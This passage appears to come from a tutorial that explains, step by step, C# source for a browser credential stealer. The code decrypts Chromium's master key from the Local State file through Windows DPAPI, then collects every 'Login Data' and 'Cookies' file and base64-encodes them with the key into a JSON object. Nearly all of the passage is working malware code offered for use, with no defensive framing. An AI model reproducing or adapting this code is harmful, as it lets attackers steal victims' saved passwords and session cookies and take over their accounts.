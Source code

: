     JObject mainJson = new JObject();
[/CODE]
Also in the foreach loop we read the contents from the file with the key 
[CODE]

    string localStateData = File.ReadAllText(localStatePath);
[/CODE]
Convert the received content to json 
[CODE]

    dynamic json = JObject.Parse(localStateData);
[/CODE]
We look for the key in the content 
[CODE]

    string encryptedKeyBase64 = json.os_crypt.encrypted_key;
[/CODE]
We decode the received key into bytes 
[CODE]

    byte[] encryptedKey = Convert.FromBase64String(encryptedKeyBase64);
[/CODE]
Remove the first 5 bytes 
[CODE]

    byte[] trimmedKey = encryptedKey.Skip(5).ToArray();
[/CODE]
Decrypting a key via DPAPI 
[CODE]

    byte[] decryptedKey = ProtectedData.Unprotect(trimmedKey, null, DataProtectionScope.CurrentUser); string decryptedKeyBase64 = Convert.ToBase64String(decryptedKey);
[/CODE]
Creating an object for the browser whose key was found 
[CODE]

    JObject browserJson = new JObject{
    ["key"] = decryptedKeyBase64
    };
[/CODE]
Recursive search for a file with cookies and passwords. 
[CODE]

    var loginDataFiles = Directory.GetFiles(userDataPath, "Login Data", SearchOption.AllDirectories);var cookiesFiles = Directory.GetFiles(userDataPath, "Cookies", SearchOption.AllDirectories);
[/CODE]
The found files are converted to base64 and then added to the browser's json object
[CODE]

    JArray loginDataArray = new JArray(); foreach (var loginDataPath in loginDataFiles)
    {
     try
     {
         if (File.Exists(loginDataPath))
         {
             byte[] loginDataBytes = File.ReadAllBytes(loginDataPath);
             string loginDataBase64 = Convert.ToBase64String(loginDataBytes);
             loginDataArray.Add(loginDataBase64);
         }
     }
     catch (Exception ex)
     {
         Console.WriteLine($"Could not access Login Data file: {loginDataPath}. Error: {ex.Message}");
         continue;
     }
    }
    browserJson["login_data"] = loginDataArray;
[/CODE]